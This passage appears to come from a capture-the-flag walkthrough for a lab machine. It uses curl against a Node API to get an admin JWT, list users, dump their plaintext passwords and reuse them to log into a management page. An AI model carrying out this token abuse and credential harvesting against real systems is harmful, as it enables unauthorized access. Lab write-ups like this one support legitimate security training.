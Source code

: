 ```
curl -X POST http://10.10.10.137:3000/login -H 'Content-Type: application/json' -d '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}'
```
<br>
If you did everything Int right then it should output an Auth token

```
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NjU2MTgwLCJleHAiOjE1Njg3NDI1ODB9.msKF4DP_76XRz5ycCkfP8LjySR8issMSUWbxPF6p97U"}
```
<br>
Now I construct another curl command using the auth token

```
curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NjU2NjM3LCJleHAiOjE1Njg3NDMwMzd9.VEVnCgx1yQrhXDFIHBULGEj8n90nFH5_piQAJYYQkdA' http://10.10.10.137:3000
```
<br>
I get a message that outputs

```
{"message":"Ilcome admin ! "}
```
<br>
Now if I send the same request only this time to the users directory I get a list of users

```
curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NjU2NjM3LCJleHAiOjE1Njg3NDMwMzd9.VEVnCgx1yQrhXDFIHBULGEj8n90nFH5_piQAJYYQkdA' http://10.10.10.137:3000/users
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Ib Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```
<br>
Now to get the passwords for each user you would have to simply send another <b>GET</b> request to <b>/users/<username></b>

```
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```
<br>
With all these credentials I basically just checked to see if any of them would work with any of the login pages or ssh and eventually there was one that worked. I could log in as <b>Derry</b> in the <b>/management</b> page.

![management.png](../../resources/b846e86e9b184726ba3a61c96c1898fa.png)
